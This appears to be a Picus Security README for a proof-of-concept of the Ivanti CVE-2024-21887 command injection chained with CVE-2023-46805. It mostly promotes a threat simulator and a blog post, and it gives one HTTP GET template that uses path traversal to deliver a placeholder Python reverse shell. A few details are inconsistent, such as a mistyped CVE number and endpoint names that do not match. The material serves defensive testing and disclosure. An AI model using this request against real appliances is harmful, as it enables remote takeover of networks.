 # Ivanti CVE-2024-21887 PoC Exploit
CISA issued an emergency directive on Ivanti CVE-2024-21887 vulnerability. The agency also reported that CVE-2024-21887 poses unacceptable risks to many federal agencies and should be mitigated immediately.<br><br>
In this repo, Picus provides a Proof-of-Concept exploit for the CVE-2024-21887 vulnerability.

Test security controls against the CVE-2024-21887 vulnerability exploit 
--------------------------------------
Picus can help you simulate the CVE-2024-21887 vulnerability exploits for free. No setup or signup is required.<br>
Use [Picus Emerging Threat Simulator](https://insights.picussecurity.com/emerging-threat-simulator-announcement?utm_source=github&utm_medium=organic+social&utm_campaign=PLS+Offensive+-+ET+Simulator) and test your defenses in a few clicks.<br> 

If you are looking for more detailed information, check out our blog post: [Ivanti CVE-2023-46805 and CVE-2024-21887 Zero-Day Vulnerabilities Actively Exploited](https://www.picussecurity.com/resource/blog/ivanti-cve-2023-46805-and-cve-2024-21887-zero-day-vulnerabilities)


CVE-2024-21887 Proof-of-concept (POC)
----------------------
Ivanti CVE-2024-21887 vulnerability is a command injection vulnerability found in "/api/v1/license/key-status/<path:node_name>" API endpoint.<br> 
Adversaries were able to access this endpoint using the CVE-20203-46805 vulnerability and append their payload to be executed by the vulnerable Ivanti product.<br><br>
The example HTTP GET request below exploits CVE-2023-46805 vulnerability to view system information without authentication.

#### Example CVE-2024-21887 Exploit:
```http
GET /api/v1/totp/user-backup-code/../../license/keys-status/<url_encoded_python_reverse_shell> 
HTTP/1.1 Host: <IP_Vulnerable_Ivanti_Product>
```

Disclaimer
----------
©2024 Picus Security <br>
All rights reserved.
